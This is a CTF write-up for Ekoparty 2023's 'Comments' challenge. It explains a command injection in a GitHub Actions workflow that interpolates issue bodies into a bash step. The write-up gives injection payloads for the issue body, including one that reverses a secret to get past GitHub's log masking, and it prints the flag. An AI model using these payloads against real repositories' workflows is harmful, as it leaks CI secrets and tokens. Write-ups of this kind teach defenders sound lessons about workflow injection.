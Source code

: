 ```yaml
---
title: Comments
date: 2023-11-12T19:56:46+02:00 
description: Writeup for Comments [Ekoparty 2023]
author: Honesty
tags:
- misc
draft: false
---
```

___

## Challenge Description

You must solve the first challenge to get the answer, all you need is inside the Lobby.

We have access to a GitHub repository with a single README file and a GitHub action workflow.

## Intuition

Checking the workflow script inside `.github/workflows/yearly_review.yml`

```yml
name: Parse review of teacher

on:
  issues:
    types: [opened, edited]

jobs:
  parse-review:
    runs-on: ubuntu-latest
    steps:
      - name: Extract Teacher name and review from issue body
        id: extract-review
        env: 
          db_pass: ${{ secrets.FLAG }} # Do we still need this to write to the DB?
        run: |
          TEACHER=$(echo '${{ github.event.issue.body }}' | grep -oP 'Teacher:.*$')
          REVIEW=$(echo '${{ github.event.issue.body }}' | grep -vP 'Teacher:.*$')
          echo "::set-output name=teacher::$TEACHER"
          echo "::set-output name=review::$REVIEW"
      - name: Comment on issue
        uses: actions/github-script@v5
        with:
          github-token: ${{secrets.GITHUB_TOKEN}}
          script: |
            const issueComment = {
              owner: context.repo.owner,
              repo: context.repo.repo,
              issue_number: ${{ github.event.issue.number }},
              body: `Thank you for reviewing ${'{{ steps.extract-review.outputs.teacher }}'}! Your review was: 
              ${'{{ steps.extract-review.outputs.review }}'}`
            };
            github.rest.issues.createComment(issueComment);
```

Note the **comment** on the `db_pass` line, where our flag is stored.

## Solution

The GitHub action above is executed for every issue created. Before running anything the environment variable `db_pass` is set to `secrets.FLAG`.

The first command in the `run` section uses a [special construct](https://docs.github.com/en/actions/learn-github-actions/variables#using-the-env-context-to-access-environment-variable-values) that gives access to context properties `${{ CONTEXT.PROPERTY }}`. This construct is interpolated and replaced by a **string** before the line is sent to the bash runner, allowing us to manipulate the commands.

```sh
TEACHER=$(echo '${{ github.event.issue.body }}' | grep -oP 'Teacher:.*$')
```

To exploit this, we create a special issue body that modifies the command chain and prints the variable:

```sh
Teacher: ') ; echo ${db_pass}; $(echo '
```

Executing this example won't reveal the actual value of `db_pass` because the GitHub Action console censors the output, displaying `***`. We can overcome this limitation by simply reversing the value.
```sh
Teacher: ') ; echo ${db_pass} | rev; $(echo '
```

This is how the final command looks like:

```sh
TEACHER=$(echo 'Teacher: ') ; echo ${db_pass} | rev; $(echo '' | grep -oP 'Teacher:.*$')
```

Reversing this value again gives us the flag.

### Flag

EKO{m0ve_y0uR_b0dy}
